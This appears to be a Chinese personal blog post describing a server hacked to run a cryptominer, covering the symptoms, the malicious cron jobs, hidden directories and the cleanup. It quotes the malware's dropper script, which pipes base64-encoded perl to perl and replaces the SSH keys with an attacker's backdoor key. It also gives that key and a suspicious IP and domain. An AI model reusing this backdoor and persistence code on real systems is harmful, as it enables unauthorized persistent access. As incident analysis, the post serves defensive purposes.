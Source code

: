 ```yaml
---
title: 记一次服务器被黑植入挖矿脚本
tags:
  - Linux
abbrlink: d6da
date: 2019-11-14 17:37:07
---
```

不是吧，配置这么烂的服务器都要搞我？
<!-- more -->

```log
CPU  [||||||||||||||||                 51.8%]   CPU -    51.8%  nice:     0.0%  ctx_sw:    8K   MEM -   21.7%  active:    5.31G   SWAP -    0.0%   LOAD    20-core
MEM  [|||||||                          21.7%]   user:    51.3%  irq:      0.0%  inter:   5508   total:  31.3G  inactive:  4.27G   total:    976M  
····
lo                         0b     0b   999.5  0.0   2.34G 2.44M   2654 root        67h8:58 16    0 S    ? ?    ./cron
2020-01-15 16:17:54 CST
```

症状：昨天（2020.1.14）root上不去了，rsa密钥也挂了，以为是网的问题，今天一试还不行。用自己的另一个账号登了一下，发现`su root`居然permission denied了。怀疑是被黑了，一看系统占用，有挖矿程序在跑，而且网络带宽占用也很高，怀疑是被当成肉鸡对外攻击了。看了一下系统日志，是一月13号被黑的，照着网上清了一遍。从此禁用密码登录（之前就想禁，师兄嫌麻烦）。MySQL也禁用密码改ssl

clamav再扫一遍

```bash
nohup clamscan -r /root 2 >> err.out &
```

更新：

之前没清干净，貌似又被黑了

症状，运行`apt update`的时候

```
Errors were encountered while processing:
 clamav-freshclam
 clamav
E: Sub-process /usr/bin/dpkg returned an error code (1)
```

然而运行了一下freshclam

```bash
root@xi102:~# freshclam
Sat Mar  7 16:49:25 2020 -> ClamAV update process started at Sat Mar  7 16:49:25 2020
Sat Mar  7 16:49:25 2020 -> daily.cld database is up to date (version: 25743, sigs: 2209759, f-level: 63, builder: raynman)
Sat Mar  7 16:49:25 2020 -> main.cvd database is up to date (version: 59, sigs: 4564902, f-level: 60, builder: sigmgr)
Sat Mar  7 16:49:25 2020 -> bytecode.cvd database is up to date (version: 331, sigs: 94, f-level: 63, builder: anvilleg)
```

居然显示病毒库是最新的

可疑进程
/opt/atlassian/confluence/jre//bin/java -Djava.ut

然后看了一下有没有可疑的定时任务

```
root@xi102:~# crontab -l
0 0 */3 * * /root/.bashtemp/a/upd>/dev/null 2>&1
@reboot /root/.bashtemp/a/upd>/dev/null 2>&1
5 8 * * 0 /root/.bashtemp/b/sync>/dev/null 2>&1
@reboot /root/.bashtemp/b/sync>/dev/null 2>&1
0 0 */3 * * /tmp/.X19-unix/.rsync/c/aptitude>/dev/null 2>&1
```

那个tmp下面有的时候是`0 0 */3 * * /tmp/.X21-unix/.rsync/c/aptitude>/dev/null 2>&1`

这个`.X某某-unix`应该是想伪装成`.X11-unix`X11转发的临时文件

root@xi102:~/.bashtemp# ps aux | grep cron
root     140526  0.0  0.0  12944  1028 pts/1    S+   17:16   0:00 grep --color=auto cron

看了一下这个目录下面，有鬼，应该就是它了

```
root@xi102:~/.bashtemp# ls
a  b  cron.d  dir2.dir
```

谷歌随手一搜这个.bashtemp，全都是被挖矿的被黑的，先干掉再说
http://blog.itpub.net/31559758/viewspace-2667801/
https://www.anquanke.com/post/id/197662
更新，又看到几个的 http://m.lanhusoft.com/Article/745.html
https://yulijia.net/cn/操作系统/2020/03/03/Trojan-attack-analysis.html#fn:2
把这个文件夹拉下来，可以看到里面有个run文件

```bash
#!/bin/sh
nohup ./stop>>/dev/null &
sleep 5
echo "ZXZhbCB1bnBh....这里太长略过..." | base64 --decode | perl
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3N...
这里一段密钥太长略过...fckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
```

这里的rsa密钥和那一串base64编码的perl脚本太长，单独放出来

rsa：

```
AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr
```

perl脚本（base64解码之后）：

```
eval unpack u=>q{_"FUY(...中间这一段还是太长略过...}
```

使用perl的unpack把后面那一段解包之后还是有900多行，太长了，放到Github gist上了[^4]
(按照挖矿佬的风俗是不是应该放到pastebin上？)

我上面放的那两篇文章里的情况和这个几乎一样。大概就是先运行一个[perl的脚本](https://blog.trendmicro.com/trendlabs-security-intelligence/outlaw-hacking-groups-botnet-observed-spreading-miner-perl-based-backdoor/)，然后把你的SSH密钥删了，插入它的后门密钥。进程伪装成rsync之类的东西。运行后会在`\tmp\`下面产生一个[dota3文件](https://blogs.juniper.net/en-us/threat-research/dota3-is-your-internet-of-things-device-moonlighting)

看到了一个可疑的欧洲IP：45.9.148.125
和一个可疑的网站：www.minpop.com

干掉定时任务`crontab -e`,把上面那几条定时任务全删了
删除`~/.ssh`目录底下可疑的authorized_keys
删除定时任务中的可疑文件夹`.bashtemp`和`.X21-unix`